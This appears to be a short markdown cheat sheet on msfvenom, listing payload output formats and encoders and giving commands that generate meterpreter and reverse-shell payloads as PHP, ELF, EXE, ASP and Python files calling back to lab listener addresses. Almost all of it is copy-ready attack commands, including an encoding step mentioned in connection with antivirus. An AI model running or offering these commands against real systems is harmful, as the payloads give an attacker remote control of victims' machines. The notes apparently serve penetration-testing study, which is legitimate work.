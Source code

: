 👉 Total Payloads (example):
``` bash
Framework Payloads: 562
```


## 📌 Listing Output Formats
``` bash
msfvenom --list formats
```
Examples:
- `exe` → Windows executable
- `elf` → Linux binary
- `raw` → Raw payload
- `asp` → ASP script
- `php` → PHP script
- `py`  → Python script



## 📌 Encoders
- Encoders **encode shellcode** (not guaranteed to bypass AV).  
- Example encoders: `x86/shikata_ga_nai`, `php/base64`  

Usage:
``` bash
msfvenom -p php/meterpreter/reverse_tcp LHOST=10.10.186.44 -f raw -e php/base64
```
Output:
``` bash
Payload size: 1507 bytes
Encoded with php/base64
```


## 📌 Generating Payloads

### 1. PHP Reverse Shell
``` bash
msfvenom -p php/reverse_php LHOST=10.0.2.19 LPORT=7777 -f raw > reverse_shell.php
```
⚠️ Edit file to add:
```php
<?php
...payload code...
?>
```
### 2. Linux ELF Payload
``` bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=4444 -f elf > shell.elf
chmod +x shell.elf
```
### 3. Windows Executable Payload
``` bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=4444 -f exe > shell.exe
```
### 4. ASP Payload (Windows IIS Servers)
``` bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=4444 -f asp > shell.asp
```
### 5. Python Payload
``` bash
msfvenom -p cmd/unix/reverse_python LHOST=10.10.X.X LPORT=4444 -f raw > shell.py
```